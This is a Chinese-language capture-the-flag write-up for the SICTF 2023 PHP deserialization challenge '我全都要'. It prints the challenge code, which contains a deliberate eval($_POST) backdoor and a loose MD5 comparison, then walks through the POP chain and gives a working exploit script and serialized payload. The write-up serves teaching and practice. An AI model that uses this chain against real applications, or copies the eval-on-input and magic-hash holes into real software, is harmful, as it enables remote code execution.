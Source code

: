 ```yaml
---
layout: mypost
title: "[SICTF 2023]我全都要"
categories: [ctf_wp]
---
```


（这道题还是一个关于PHP的一道反序列化题目，不懂这块的还是先去看看这篇文章--正OR反序列化）

1.dd给大家看这道题的源代码

```
<?php
highlight_file(__FILE__);

class B{
    public $pop;
    public $i;
    public $nogame;

    public function __destruct()
    {
        if(preg_match("/233333333/",$this->pop)){
            echo "这是一道签到题，不能让新生一直做不出来遭受打击";
        }
    }

    public function game(){
        echo "扣1送地狱火";
        if ($this->i = "1"){
            echo '<img src=\'R.jpg\'>';
            $this->nogame->love();
        }
    }

    public function __clone(){
        echo "必须执行";
        eval($_POST["cmd"]);
    }
}


class A{
    public $Aec;
    public $girl;
    public $boy;

    public function __toString()
    {
        echo "I also want to fall in love";
        if($this->girl != $this->boy && md5($this->girl) == md5($this->boy)){
            $this->Aec->game();
        }
    }


}


class P{
    public $MyLover;
    public function __call($name, $arguments)
    {
        echo "有对象我会在这打CTF???看我克隆一个对象！";
        if ($name != "game") {
            echo "打游戏去，别想着对象了";
            $this->MyLover = clone new B;
        }
    }

}

if ($_GET["A_B_C"]){
    $poc=$_GET["A_B_C"];
    unserialize($poc);
} 
```

简单做个分析，还是先找危险函数很显然就是这个B类里面的\_\_clone(),这个往前推就是P.\_\_call（），因为要执行这个\_\_call的函数，就是要找到一个不存在该类中的方法，很显然就是B.game()，而调用此方法的话就会用到A.\_\_toString()，再往前推就是B.\_\_destruct()了

2.然后有个同届的人问我，在从正则到tostring这一步，最正常的写法应该就是''$a->pop=$b;''，但能不能写成''$a->i=$b;''然后"$a->pop=$a->i"呢？但我给大家画张图，你们应该就明白了

![](image-20231102201910492.png)

现在应该是这个样子的，他想如果把pop再等于$a的话，pop是不是就相当于是包含i了，进一步的话，也是包含$b的，但你看图，如果pop再等于$a的话，大家可能想的是应该就是在pop这个小格子里面继续去分，但其实并不是这样的，就是实实在在的pop完全包含了$a，可能这里有点抽象，它们之间的关系就是一种你包含我，我也包含你的互相包含的关系，下面我也自己写了一个例子

```
<?php
class Person{                                                         
    public $name;         
    public $sex;         
    public function __destruct()
    {
            echo "我觉得我还可以再抢救一下，我的名字叫".$this->name;
    }
}


class A{
    public $Aec;
    public $girl;
    public $boy;

    public function __toString()
    {
            echo "I also want to fall in love";
    }


}

$a = new Person();
$b = new A();
$a->sex = $b;
$a->name = $a->sex;
unset($a);
?>
```

![](image-20231102205951511-1024x395.png)

你看，这样也是能正常输出的

3.诶呀诶呀跑偏了，具体的再那篇文章--正XOR反序列化再说吧，然后这道题的pop链就是

```
B.__destruct() --> A.__toString() --> B.game() --> P.__call() --> B.__clone()
```

根据这个还是很容易就能写出exp的

```
<?php
class B{
    public $pop='233333333';
    public $i="1";
    public $nogame;
}

class A{
    public $Aec;
    public $girl='QNKCDZO';
    public $boy='240610708';
}

class P{
    public $MyLover;   
}
$a=new B();
$b=new A();
$c=new P();
$a->pop=$b;
$b->Aec=$a;
$b->Aec->nogame=$c;
echo serialize($a);
?>
```

得到结果

```
O:1:"B":3:{s:3:"pop";O:1:"A":3:{s:3:"Aec";r:1;s:4:"girl";s:7:"QNKCDZO";s:3:"boy";s:9:"240610708";}s:1:"i";s:1:"1";s:6:"nogame";O:1:"P":1:{s:7:"MyLover";N;}}
```

得到flag

![](屏幕截图-2023-09-10-114617-1024x506.png)

Finish!!!